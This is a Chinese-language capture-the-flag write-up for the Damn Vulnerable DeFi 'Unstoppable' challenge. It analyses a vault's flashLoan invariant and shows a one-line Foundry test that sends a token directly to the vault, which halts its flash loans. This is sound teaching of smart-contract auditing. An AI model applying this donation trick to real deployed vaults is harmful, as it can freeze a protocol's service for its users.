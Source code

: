 ## 题目 [Unstoppable](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/unstoppable)
![](/img/DamnVulnerableDeFiV4/1.1.png)
有一个 token 化的金库合约，里面存放了一百万个 DVT 代币。在宽限期结束之前，它会免费提供闪电贷服务。  

为了在完全丢弃权限之前找出潜在的漏洞，开发者们决定在测试网上进行实况测试。为此，他们部署了一个监控合约，用于检查闪电贷功能的活跃状态。  

从只有 10 个 DVT 代币的余额开始，展示如何让这个金库合约停止运行。目标是让它无法继续提供闪电贷服务。  

**解释：** 题目的意思是需要让合约无法正常的提供闪电贷服务，即修改一些条件，导致即使正常调用闪电贷函数，也会失败。

## 合约分析
一共有两个合约文件 [UnstoppableVault](https://github.com/theredguild/damn-vulnerable-defi/blob/v4.0.0/src/unstoppable/UnstoppableVault.sol) 和 [UnstoppableMonitor](https://github.com/theredguild/damn-vulnerable-defi/blob/v4.0.0/src/unstoppable/UnstoppableMonitor.sol)。其中，`UnstoppableVault` 合约是提供闪电贷服务的金库，而 `UnstoppableMonitor` 合约则用于监控合约的闪电贷功能。重点在于 `UnstoppableVault` 合约中的 `flashLoan` 函数。
``` solidity
    function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```
函数中有四个检查条件：
1. `amount` 参数不能为零。
2. 借贷的代币必须是金库的标的代币，在这个例子中即为DVT代币。
3. `convertToShares(totalSupply)` 必须等于 `balanceBefore()`。
4. 闪电贷操作是否成功，通过借贷者合约的 `onFlashLoan` 方法返回的 `magic value` 进行验证。

其中，1、2、4 三个条件相对直观，我们重点分析第 3 个条件。涉及到的函数和变量如下：  
``` solidity
    // 标的代币（DVT）
    ERC20 public immutable asset;

    // 总份额（tDVT）
    uint256 public totalSupply;

    function totalAssets() public view override nonReadReentrant returns (uint256) {
        return asset.balanceOf(address(this));
    }

    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        // 常见省 gas 方式：先将 totalSupply 存入内存，减少 SLOAD 操作。
        uint256 supply = totalSupply; 

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```
`convertToShares` 函数用于将资产数量转换为份额数量，通过公式 $\frac{\text{Total Assets}}{\text{Total Shares}} = \frac{\text{Assets}}{\text{Shares}}$ 计算出 $Shares$ 。因此，检查条件 3 的目的是验证合约的内部状态是否一致，确保 `totalSupply` 转化为的资产数量与金库中的实际资产总量一致，避免通过非正常手段操作合约资产。

不过，此处难道不是应该使用 `convertToAssets` 函数吗，将总份额转换为总资产数量。此处先存疑...    
## 题解
基于上述分析，我们可以得出解决方法：直接向金库合约中转入额外的DVT代币，从而打破代币数量的对应性，使检查条件失败，进而阻止闪电贷功能的运行。  

**测试代码：**
``` solidity
    function test_unstoppable() public checkSolvedByPlayer {
        require(token.transfer(address(vault), 1));
    }
```
**运行测试：**
```
forge test --mp test/unstoppable/Unstoppable.t.sol
```
**测试通过：**
```
Ran 2 tests for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_assertInitialState() (gas: 57390)
[PASS] test_unstoppable() (gas: 67067)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 17.81ms (4.26ms CPU time)
```

## 相关知识
### ERC-4626
ERC-4626 是一个标准化API，用于让用户控制并执行Vault功能，并通过ERC-20代币进行交互。该标准建立在ERC-20之上，核心功能包括向Vault存入资金、查询Vault内的资金状态、股份和资产的兑换，以及对Vault进行资金管理的功能（如存款、提款、铸币和赎回）。

更多内容可参考：  
[ERC-4626: Tokenized Vaults | eips.ethereum.org/](https://eips.ethereum.org/EIPS/eip-4626)  
[ERC-4626 Tokenized Vault Standard | ethereum.org](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/)

### ERC-3156
ERC-3156 定义了一个统一的闪电贷标准，旨在支持各种不同的借贷机制。许多协议提供闪电贷服务，如dYdX、Aave和Uniswap，但它们的接口各不相同。ERC-3156 的提出为开发者提供了一种标准化的方法，减少了学习成本，并增强了dApp的安全性。  

更多信息请参见：  
[ERC-3156: Flash Loans | eips.ethereum.org/](https://eips.ethereum.org/EIPS/eip-3156)

